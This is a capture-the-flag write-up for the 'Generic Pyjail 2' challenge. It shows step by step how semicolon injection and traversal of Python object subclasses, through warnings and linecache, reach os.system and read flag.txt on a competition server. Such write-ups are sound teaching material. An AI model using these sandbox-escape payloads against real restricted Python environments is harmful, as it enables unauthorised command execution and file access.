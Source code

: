 # Generic Pyjail 2 - Misc

### [~$ cd ..](../)

>genericpyjail2
>
>Written by: dns
>
>how unoriginal do you have to be to make two of these
>
>nc chall2.2019.redpwn.net 6007

The way we had to inject was here a little bit more difficult to find, compared to Generic Pyjail. The service prints what we send, but doesn't leak a lot of information:

```
wow! again, there's a file called flag.txt! insane!
0
now it's  0 !
x
now it's  x !
globals()
now it's  globals() !
'
now it's  ' !
Exception:  EOL while scanning string literal (<string>, line 1)
test
now it's  test !
Exception:  name 'test' is not defined
print(42)
now it's  print(42) !
Exception:  invalid syntax (<string>, line 1)
```

We can notice here that a variable `x` exists and that the output of the functions (such as `globals()`) are not displayed.
Because of the last line, one can guess that some stuff are already put in the command before our input. Closing the first command with a semi-colon was actually the trick:

```
0;print(42)
now it's  0;print(42) !
42
```

We can now print what we want, so let's leak some hints such as blacklisted words:

```
0;print(globals())
now it's  0;print(globals()) !
{'gone': ['open', 'file', 'execfile', 'compile', 'reload', '__import__', 'eval', 'input'], 'e': NameError("name 'os' is not defined",), '__builtins__': <module '__builtin__' (built-in)>, '__file__': 'jail2.py', '__package__': None, 'func': 'input', 'x': 0, '__name__': '__main__', '__doc__': None}
```

CTF experience played its role here, as we knew that we had to do deep objection inspection so as to find a reference to the `os` package. What we want here is to get the module `warnings` since the latter has a reference to interesting modules:

```
0;print(().__class__.__base__.__subclasses__())
now it's  0;print(().__class__.__base__.__subclasses__()) !
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

At index 59, a reference to `warnings.catch_warnings` can be found ! We knew that we had to find `linecache`, and then `os` from the latter. Accessing module's globals was the solution:

```
wow! again, there's a file called flag.txt! insane!
0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os))
now it's  0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os)) !
<module 'os' from '/usr/lib/python2.7/os.pyc'>
```

And finally

```
0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os).system("cat\x20flag.txt"))
now it's  0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os).system("cat\x20flag.txt")) !
flag{sub_sub_sub_references}
```

FLAG: **flag{sub_sub_sub_references}**

EOF
